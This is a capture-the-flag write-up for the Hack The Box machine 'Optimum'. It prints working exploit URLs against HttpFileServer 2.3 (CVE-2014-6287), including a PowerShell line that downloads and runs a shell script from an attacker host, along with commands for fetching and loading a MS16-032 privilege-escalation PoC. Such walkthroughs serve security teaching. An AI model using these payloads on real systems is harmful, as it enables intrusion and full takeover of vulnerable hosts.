









# Optimum Writeup - by Thammanant Thamtaranon  
- Optimum is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash 
nmap -A -T4 -p- 10.10.10.8
```
  
- The scan showed one open port:  
  - 80 (HTTP)  

## Scanning & Enumeration  
- Visiting the HTTP website revealed `HttpFileServer 2.3`.  
- We then searched for the CVE and found **CVE-2014-6287**.  
  
- **CVE-2014-6287** is a Remote Code Execution vulnerability due to a regex deficiency in the `findMacroMarker` function of the parser. It fails to handle null bytes (%00) correctly, allowing arbitrary HFS scripting commands to be executed, leading to remote code execution.

## Exploitation  
- We confirmed the vulnerability by visiting:  
`http://10.10.10.8/?search=%00{.+exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+/c+ping+10.10.16.8.}`
  
- This confirmed the vulnerability exists. We then changed the URL to:  
`http://10.10.10.8/?search=%00{.+exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.8:8000/shell.ps1').}` 
- This downloads and executes `shell.ps1`.  
  
- We got a shell as user `kostas`.  
  
- We captured the user flag.

## Privilege Escalation  
- We ran `whoami /priv` and `whoami /groups` but found nothing useful.  
- We then ran `systeminfo`.  
  
- Searching for `Microsoft Windows Server 2012 R2 CVE` revealed **CVE-2016-0099**, a Local Privilege Escalation (LPE) vulnerability in the Secondary Logon Service (seclogon) responsible for “Run as” functionality.  
- The root causes:  
  - Improper Memory Handling: The service mishandles request objects in memory, allowing manipulation of execution flow.  
  - Insufficient Access Control / Validation: Fails to properly check permissions or validate input, allowing code execution with SYSTEM privileges.  
- We downloaded the PoC from [exploit-db](https://www.exploit-db.com/exploits/39719).  
- We transferred the PoC to the target machine:
```bash   
Invoke-WebRequest -Uri http://10.10.16.8:8000/exploit.ps1 -OutFile exploit.ps1
```
- Then we loaded the script into the current scope:
```bash  
. C:\Users\kostas\Desktop\exploit.ps1
```
- Running `Invoke-MS16-032` executed the exploit, but the current shell did not elevate to SYSTEM.  
- We then used Metasploit, starting from exploiting **CVE-2014-6287**, backgrounded the session, and then exploited **CVE-2016-0099**.  
  
  
  
- We obtained a SYSTEM shell and captured the root flag.
